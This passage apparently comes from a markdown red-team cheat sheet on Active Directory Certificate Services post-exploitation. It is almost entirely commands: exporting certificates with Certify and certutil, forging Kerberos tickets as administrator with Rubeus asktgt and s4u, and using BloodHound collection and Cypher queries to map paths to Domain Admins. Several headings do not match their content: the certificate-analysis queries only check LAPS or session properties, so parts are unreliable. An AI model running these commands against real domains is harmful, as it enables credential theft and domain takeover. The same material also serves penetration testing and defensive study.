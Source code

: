 ### Post-Exploitation

#### 1. Certificate Theft

```powershell
# Using Certify
Certify.exe export /ca:<CA_SERVER>\<CA_NAME> /id:<CERTIFICATE_ID>

# Using Certutil
certutil -exportPFX -p <PASSWORD> <CERTIFICATE_ID> cert.pfx
```

#### 2. Certificate Abuse

```powershell
# Using Rubeus
Rubeus.exe asktgt /user:administrator /certificate:<CERTIFICATE> /ptt
Rubeus.exe s4u /user:administrator /certificate:<CERTIFICATE> /impersonateuser:krbtgt /ptt
```

### BloodHound AD Integration

#### 1. Data Collection

```powershell
# Using SharpHound
Invoke-BloodHound -CollectionMethod All
Invoke-BloodHound -CollectionMethod CertServices

# Using BloodHound Python
bloodhound-python -d domain.local -u user -p password -c All
bloodhound-python -d domain.local -u user -p password -c CertServices
```

#### 2. ADCS Analysis

```powershell
# Using BloodHound
MATCH (n:Computer) WHERE n.haslaps=true RETURN n
MATCH (n:Computer) WHERE n.operatingsystem CONTAINS 'Server' RETURN n
MATCH (n:Computer) WHERE n.enabled=true RETURN n

# Certificate Template Analysis
MATCH (n:Computer)-[:HasSession]->(m:User) WHERE n.haslaps=true RETURN n,m
MATCH (n:User)-[:GenericAll]->(m:Computer) WHERE m.haslaps=true RETURN n,m
```

#### 3. Attack Path Analysis

```powershell
# Using BloodHound
MATCH p=shortestPath((n:User)-[*1..]->(m:Group)) WHERE n.name CONTAINS 'USER' AND m.name CONTAINS 'DOMAIN ADMINS' RETURN p
MATCH p=shortestPath((n:Computer)-[*1..]->(m:Group)) WHERE n.name CONTAINS 'SERVER' AND m.name CONTAINS 'DOMAIN ADMINS' RETURN p

# Certificate-based Paths
MATCH p=shortestPath((n:User)-[*1..]->(m:Computer)) WHERE n.name CONTAINS 'USER' AND m.haslaps=true RETURN p
MATCH p=shortestPath((n:Computer)-[*1..]->(m:Group)) WHERE n.haslaps=true AND m.name CONTAINS 'DOMAIN ADMINS' RETURN p
```
